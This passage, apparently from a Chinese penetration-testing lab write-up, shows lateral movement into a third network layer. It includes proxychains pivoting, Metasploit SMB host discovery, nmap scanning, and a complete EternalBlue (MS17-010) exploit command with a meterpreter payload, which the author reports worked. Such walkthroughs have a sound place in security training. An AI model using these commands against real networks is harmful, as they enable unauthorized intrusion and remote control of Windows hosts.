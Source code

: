 然后配置proxychains：

![img](assets/1700555910009-1b123065-2ddb-4172-a67a-9683b3260a07.jpeg)

此时，就可以设置proxychains等代理工具，通过访问攻击机的1090端口来使用架设在第二层网络Windows主机上的socks代理服务，来进入第三层网络了。

在第二层网络Windows主机上执行ping命令扫描第三层网络中

接着，我们使用metasploit的 auxiliary/scanner/smb/smb_version 模块（可用来探测Windows主机存活）来扫描第三层网络中的主机存活：

use auxiliary/scanner/smb/smb_version set rhosts 192.168.93.1-255 set threads 5 run

![img](assets/1700555910034-a3dde1fc-78c5-4709-9a01-9415fb9a02ba.jpeg)

如上图，发现第三层网络中还有两个Windows主机，分别为DC（192.168.93.30）和PC2（192.168.93.40），使用nmap进一步扫描PC2主机信息：

proxychains4 nmap -Pn -sT -sV 192.168.52.40

没发现什么有用的服务，我们直接打一个“永恒之蓝”试试：

setg Proxies socks5:127.0.0.1:1090 use exploit/windows/smb/ms17_010_eternalblue set rhosts 192.168.93.40 set payload windows/x64/meterpreter/bind_tcp set rhost 192.168.93.40 set lport 4444 exploit

好家伙！真不容易。这次竟然成功了：
